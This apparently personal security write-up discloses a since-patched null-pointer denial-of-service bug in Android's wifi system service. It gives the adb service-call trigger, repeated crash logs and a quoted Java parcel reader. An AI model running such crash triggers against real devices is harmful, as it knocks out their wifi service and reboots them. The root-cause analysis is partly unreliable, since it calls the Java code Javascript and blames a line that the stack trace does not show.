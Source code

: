 # Silly calls and silly bugs 

bugs in Android that cause a Denial Of Service in Android Runtime. I needed a break from IOS and Mac so I decided to hop back into Android as it is cool! After some reading and about 50 hours of research into Android, I got a few crashes, most are OOM which causes the same issue but is less interesting. However, do I report them as they do cause a device crash as it uses all of the memory by making one service call to a different component?


Android is made up of many components as shown below there are several vectors, I chose service calls as they were low-level enough to hopefully get some bugs. 

![Android Stack](https://source.android.com/static/images/android-stack.svg)

Service call layout:
$ adb shell SERVICENAME values, int 64, float, string, int 32 
The idea is simple, randomize these calls, creating a dumb fuzzer. 


Covering the crash, after we send our service call, to the wifi stack, we can see the following crash, if we continie to spam the device with the packets after the null pointer it then shuts off the device and causes a reboot, for some reason I do not know why. But this is what it does. It has since been patched and can be seen [here](https://issuetracker.google.com/issues/326278126) issue 326278126 in AOSP as patched, I may have submitted it the wrong way to the Android team, I thought if you posted directly on their bugs some bugs could get noticed by the security team where this is not the case, I then had to then re-report the bug to product security and hopefully, this meets the criteria for a CVE as it does cause a denial of service in the system due to a Null Pointer Dereference.

```bash
$ adb adb shell service call wifi 113

$ adb logcat -b crash
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.RemoteCallbackList.unregister(RemoteCallbackList.java:156)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at com.android.server.wifi.WifiMetrics.removeOnWifiUsabilityListener(WifiMetrics.java:7559)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.lambda$removeOnWifiUsabilityStatsListener$108(WifiServiceImpl.java:6283)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.$r8$lambda$SBpNFH_Zvv16E23PY-wxYG5jMI4(WifiServiceImpl.java:0)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl$$ExternalSyntheticLambda117.run(R8$$SyntheticClass:0)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.Handler.handleCallback(Handler.java:958)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.Handler.dispatchMessage(Handler.java:99)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at com.android.server.wifi.RunnerHandler.dispatchMessage(RunnerHandler.java:122)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.Looper.loopOnce(Looper.java:230)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.Looper.loop(Looper.java:319)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.HandlerThread.run(HandlerThread.java:67)
02-22 14:12:15.126 14876 30004 E AndroidRuntime: FATAL EXCEPTION: lowpool[28]
02-22 14:12:15.126 14876 30004 E AndroidRuntime: Process: com.google.android.gms.persistent, PID: 14876
02-22 14:12:15.126 14876 30004 E AndroidRuntime: DeadSystemException: The system died; earlier logs will point to the root cause
02-22 14:15:18.576 30232 30495 E AndroidRuntime: !@*** FATAL EXCEPTION IN SYSTEM PROCESS: WifiHandlerThread
02-22 14:15:18.576 30232 30495 E AndroidRuntime: java.lang.NullPointerException: Attempt to invoke interface method 'android.os.IBinder android.os.IInterface.asBinder()' on a null object reference
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.RemoteCallbackList.unregister(RemoteCallbackList.java:156)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at com.android.server.wifi.WifiMetrics.removeOnWifiUsabilityListener(WifiMetrics.java:7559)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.lambda$removeOnWifiUsabilityStatsListener$108(WifiServiceImpl.java:6283)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.$r8$lambda$SBpNFH_Zvv16E23PY-wxYG5jMI4(WifiServiceImpl.java:0)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl$$ExternalSyntheticLambda117.run(R8$$SyntheticClass:0)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.Handler.handleCallback(Handler.java:958)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.Handler.dispatchMessage(Handler.java:99)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at com.android.server.wifi.RunnerHandler.dispatchMessage(RunnerHandler.java:122)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.Looper.loopOnce(Looper.java:230)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.Looper.loop(Looper.java:319)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.HandlerThread.run(HandlerThread.java:67)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: !@*** FATAL EXCEPTION IN SYSTEM PROCESS: WifiHandlerThread
02-22 14:18:15.797 15657 15912 E AndroidRuntime: java.lang.NullPointerException: Attempt to invoke interface method 'android.os.IBinder android.os.IInterface.asBinder()' on a null object reference
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.RemoteCallbackList.unregister(RemoteCallbackList.java:156)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at com.android.server.wifi.WifiMetrics.removeOnWifiUsabilityListener(WifiMetrics.java:7559)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.lambda$removeOnWifiUsabilityStatsListener$108(WifiServiceImpl.java:6283)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.$r8$lambda$SBpNFH_Zvv16E23PY-wxYG5jMI4(WifiServiceImpl.java:0)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl$$ExternalSyntheticLambda117.run(R8$$SyntheticClass:0)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.Handler.handleCallback(Handler.java:958)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.Handler.dispatchMessage(Handler.java:99)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at com.android.server.wifi.RunnerHandler.dispatchMessage(RunnerHandler.java:122)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.Looper.loopOnce(Looper.java:230)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.Looper.loop(Looper.java:319)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.HandlerThread.run(HandlerThread.java:67)
```
Now if the Javascript code is then reviewed this can be traced to the following paramaters of the JS object. 

### - android.net.wifi.WifiEnterpriseConfig
```Java 
public static final Creator<WifiEnterpriseConfig> CREATOR =
            new Creator<WifiEnterpriseConfig>() {
                public WifiEnterpriseConfig createFromParcel(Parcel in) {
                    WifiEnterpriseConfig enterpriseConfig = new WifiEnterpriseConfig();
                    int count = in.readInt();
                    for (int i = 0; i < count; i++) {
                        String key = in.readString();
                        String value = in.readString();
                        enterpriseConfig.mFields.put(key, value);
                    }
                    enterpriseConfig.mCaCert = readCertificate(in);
                    PrivateKey userKey = null;
                    int len = in.readInt();
                    if (len > 0) {
                        try {
                            byte[] bytes = new byte[len];
                            in.readByteArray(bytes);
                            String algorithm = in.readString();
                            KeyFactory keyFactory = KeyFactory.getInstance(algorithm);
                            userKey = keyFactory.generatePrivate(new PKCS8EncodedKeySpec(bytes));
                        } catch (NoSuchAlgorithmException e) {
                            userKey = null;
                        } catch (InvalidKeySpecException e) {
                            userKey = null;
                        }
                    }
                    enterpriseConfig.mClientPrivateKey = userKey;
                    enterpriseConfig.mClientCertificate = readCertificate(in);
                    return enterpriseConfig;
                }
```

The trigger of the crash is the following, by simply calling wifi 113 

``` Java 
enterpriseConfig.mFields.put(key, value);
```

The mfields are used as a hash reprensetation of the keys used for authentication in the WifiEnterpriseConfig which would make sense as there needs to be some form of verification/attistation for WIFI. By giving this a null or simply call the service without any other stages for authentication will simpaly trigger the defrffrence, though this could be triggered ina real situation, if just a null object was passed to the device when it is searching for wifi. 
